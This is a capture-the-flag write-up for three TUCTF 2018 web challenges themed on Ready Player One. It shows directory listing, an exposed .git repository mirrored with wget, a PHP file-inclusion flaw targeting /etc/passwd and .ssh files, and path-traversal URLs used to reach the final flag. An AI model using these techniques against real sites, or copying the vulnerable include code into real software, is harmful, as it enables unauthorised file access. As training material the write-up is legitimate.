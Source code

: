 TUCTF 2018 — "Easter egg" challenges
====================================

A series of three web challenges, themed around the book _Ready Player One_.

The Copper Gate
---------------

> How did I end up here? - Joker  
> http://18.191.227.167/

We see what looks like a "placeholder" page, with a video referencing the book embedded on the page. The text reads:

> Please return at a later date for more content!

Which I took to be a hint that I needed to somehow make a request "from the future" to get a different version of the page. In fact, it was much simpler: an image included on the page was stored in the `/images` directory.  
Navigating there, it turns out that directory listing is enabled, and there's a text file with instructions pointing us to "the development area":

http://18.191.227.167/images/sitenotes.txt
http://18.191.227.167/devvvvv/home.html

> Welcome to the development area
> You may be asking yourself how you got here... Truth be told I have no idea either. You may want to figure that out.
>
> Moving on, though.
>
> I hope you have as much fun solving this as I did writing it.
> A big thank you to Warren Robinett for beginning this fun tradition.
> In the spirit of the classic video game easter egg, I have hidden a series of challenges throughout this site. In the spirit of my favorite book, Ready Player One.
>
> (...)
> 
> Each step of the hunt will award points respective to the challenge. The final step and to the egg is the crystal flag. Thank you to everyone for your participation. And now for the introduction.
>
> **Introductions**
>
> Three hidden flags open three secret gates.  
> Wherein the challenger will be tested for worthy traits.  
> And those with the skill to solve what I create  
> Will reach The End, where the points await  
>
> **The First Challenge**  
> 
> The Copper Flag awaits your attention  
> Somewhere in an old direction  
> But you have much to review  
> If you hope to accrue  
> The points protected by this section.  


"An old direction" seems to point to a directory that we've already explored before. "Protected" made me think of `.htaccess`, but I got a 403 when trying to read it.

With "Preserve network logs" enabled in the Chrome dev console, I used the same trick as before and simply navigated up to `/devvvvv`, trying to see if we could get a directory listing.

Instead, `devvvvv/index.html` contained a `meta` tag redirecting us to `devvvvv/home.html`... but also a link to flag! (Base64 encoded)

```
http://18.191.227.167/youfoundthejadegate/gate.html
VFVDVEZ7VzNsYzBtM19UMF9UaDNfMDQ1MTVfVGgzX0MwcHAzcl9LM3l9Cg==
TUCTF{W3lc0m3_T0_Th3_04515_Th3_C0pp3r_K3y}
```

---

The Jade Gate
-------------

Challenge description:

> Gotta make sure I log my changes. - Joker  
> http://18.191.227.167/

On the page where we found the copper flag, there were extra instructions:

> **The Jade Flag**
>
> The updates conceal the Jade Flag  
> in a backup long neglected  
> But you can only retrace your steps  
> once the logs are all collected  

Okay, so there are some evocative keywords there:

- "backup": perhaps a zip with the source code / database dump is stored somewhere
- "logs": server & access logs? PHP stores logs in a default location, so perhaps there's a directory traversal exploit that would allow us to get them. I tried for a little bit, but no luck.
- "log my changes": wait, that sounds a lot like version control!

http://18.191.227.167/.git/  
Bingo! We get the directory listing for a typical git repository. Let's download it for convenience:

```
wget -r http://18.191.227.167/.git/
```

Looking at the changes from each commit, after reading through a few funny / trollish messages, we find the Jade flag:

```
http://18.191.227.167/youfoundthejadegate/gate.html
TUCTF{S0_Th1s_D035n7_533m_l1k3_175_f41r_8u7_wh0_3v3r_s41d_l1f3_15_f41r?}
```

---

The Crystal Gate
-------------

> I don't wanna go anywhere.  
> http://18.191.227.167/

Continuing to analyze the Git repository's content, we see _staged_, but non-committed changes:

![Staged files in the git repo](jade-commits.png)

```
<?php
echo 'Note: Only used for access management and to check user info.';
echo '<br>';
echo 'Note2: I can\'t seem to remember the param. It\'s "file"';
echo '<br>';

if (isset($_GET['file'])) {
    $file = $_GET['file'];
    if (strpos($file, '/etc/passwd') == true) {
        include($file);
    }
    elseif (strpos($file, '.ssh') == true) {
        include($file);
        echo '<br>';
        echo 'Probably shouldn\'t put my own key in my own authorized keys, but oh well.';
    }
}
?>
```

That certainly looks exploitable!  
For one, `strpos` only checks that the substring is _somewhere_ in `$file`.  
After trying different values of `$file`, I realized that the code seen in the repo wasn't exactly what's running on the server. The exploit is even easier, allowing inclusion of _any_ file:

```
http://18.191.227.167/crystalsfordays/traversethebridge.php?file=..
http://18.191.227.167/crystalsfordays/traversethebridge.php?file=../..
http://18.191.227.167/crystalsfordays/traversethebridge.php?file=../../TheEgg.html
```

And we got the flag!

```
Note: Only used for access management and to check user info.
<br>Note2: I can't seem to remember the param. It's "file"
<br>
<html>
    <p>THE END</p>
    <p>Congratulations! You have discovered the crystal key and unlocked the egg. Thank you for your participation in this competition and I hope you enjoyed the trip, as well as learned a few things in the process.</p>
    <p>- Joker</p>
    <p>TUCTF{3_15_4_M4G1C_NUMB3R_7H3_crys74L_k3Y_15_y0ur5!}</p>
</html>
```
